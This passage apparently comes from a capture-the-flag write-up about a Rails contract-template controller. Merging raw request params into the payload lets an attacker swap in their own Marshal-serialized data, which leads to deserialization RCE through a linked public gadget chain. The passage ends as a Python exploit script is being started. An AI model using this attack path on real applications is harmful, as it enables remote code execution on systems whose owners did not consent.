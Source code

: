 Examining the Rails controller for this feature:

```ruby
def create
    user_data = current_user

    unless user_data && user_data['id']
      flash[:alert] = "User must be logged in to create a template."
      redirect_to login_path and return
    end
    serialized_content = Marshal.dump(params[:content])

    response = HTTP.auth("Token #{session[:token]}").post("http://localhost:8080/api/contract_templates/", json: { data: serialized_content, user_id: user_data['id'] }.merge(params.to_unsafe_h))

    if response.status.success?
      flash[:notice] = "Template created successfully."
      redirect_to contract_templates_path
    else
      flash.now[:alert] = "Failed to create template."
      render :new
    end
end
```

The `create` method performs the following actions:

1. **Checks if the user is logged in**: If not, it redirects to the login page with an error message.
2. **Serializes template content**: Converts `params[:content]` into a binary format using `Marshal.dump`.
3. **Sends data to the API**: Sends a POST request with the serialized content, user ID, and form data to the backend API.
4. **Handles API response**:
   - On success: Displays a success message and redirects to the templates page.
   - On failure: Displays an error message and re-renders the `new` template form.

This piece of code has a couple of issues:

```ruby
response = HTTP.auth("Token #{session[:token]}").post("http://localhost:8080/api/contract_templates/", json: { data: serialized_content, user_id: user_data['id'] }.merge(params.to_unsafe_h))
```

The merge operation makes it vulnerable. If we provide a `data` parameter, it will not overwrite it with the serialized content. Therefore, we can insert our malicious serialized content, which will be deserialized later, leading to RCE. There is a recent [Rails Universal RCE gadget chain](https://github.com/GitHubSecurityLab/ruby-unsafe-deserialization/blob/main/marshal/3.4-rc/marshal-rce-ruby-3.4-rc.rb) that we can utilize.

Let's add this to our exploit script.

```python
import requests
from bs4 import BeautifulSoup

username = "admin"
password = "cgfszyiotmtacdmnletkkaohwtkadmycottsysijegvxfplvovaqemmqgdapmazr"

base_url = "http://127.0.0.1:1337"

session = requests.Session()

def getAuthenToken(html):
    soup = BeautifulSoup(html, "html.parser")
    return soup.find("input", {"name": "authenticity_token"})["value"]

def login():
```